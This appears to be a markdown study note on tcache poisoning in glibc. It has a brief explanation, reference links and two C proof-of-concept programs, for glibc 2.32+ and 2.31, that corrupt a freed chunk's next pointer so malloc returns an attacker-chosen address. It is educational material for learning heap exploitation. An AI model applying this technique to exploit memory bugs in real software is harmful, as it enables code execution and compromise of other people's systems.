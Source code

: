 <details>
<summary><strong>Description</strong></summary>
<p>

the tcache works as a linked list, and relies on the next pointers. When a chunk from the tcache gets allocated, it allocates the head of an individual tcache linked list, and its next ptr becomes the head...

this attack relies on altering the next ptr of a tcache chunk. After we have altered the next ptr of a tcache chunk, and allocate the altered chunk, the next allocation should give us a memory chunk at an address of our choosing...

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/tcache/tcache_linked_list/readme.md
- https://github.com/shellphish/how2heap/blob/master/glibc_2.39/tcache_poisoning.c
- https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c

</p>
</details>

### For `2.32+` versions

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long x[0x10], *target, *chunk0, *chunk1, *chunk2;

    // target must be aligned 0x10
    for(int i = 0; i < 0x10; i++) {
        if((((long)&x[i]) & 0xF) == 0) {
            target = &x[i];
            break;
        }
    }

    printf("target: %p\n", target);

    chunk0 = malloc(0x18);
    chunk1 = malloc(0x18); // two chunks must be the same size, or else they will go to different tcache

    free(chunk0);
    free(chunk1); 
    // [tcache 0x20]: chunk1 -> chunk0

    // VULNERABILITY
    chunk1[0] = (long)target ^ ((long)chunk1 >> 12); // ptr mangled since glibc 2.32
    // VULNERABILITY
    // [tcache 0x20]: chunk1 -> target
    
    malloc(0x18); // padding
    // [tcache 0x20]: target

    chunk2 = malloc(0x18);
    // [tcache 0x20]: (empty)

    printf("chunk2: %p\n", chunk2);
}
```

</p>
</details>

### For `2.31` version

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long x[0x10], *target, *chunk0, *chunk1, *chunk2;

    // target doesnt need to aligned 0x10 in 2.31
    target = (char *)(&x[2]) - 2;

    printf("target: %p\n", target);

    chunk0 = malloc(0x18);
    chunk1 = malloc(0x18); // two chunks must be the same size, or else they will go to different tcache

    free(chunk0);
    free(chunk1); 
    // [tcache 0x20]: chunk1 -> chunk0

    // VULNERABILITY
    chunk1[0] = (long)target; // no mangled pointer in glibc 2.31
    // VULNERABILITY
    // [tcache 0x20]: chunk1 -> target
    
    malloc(0x18); // padding
    // [tcache 0x20]: target

    chunk2 = malloc(0x18);
    // [tcache 0x20]: (empty)

    printf("chunk2: %p\n", chunk2);
}
```

</p>
</details>
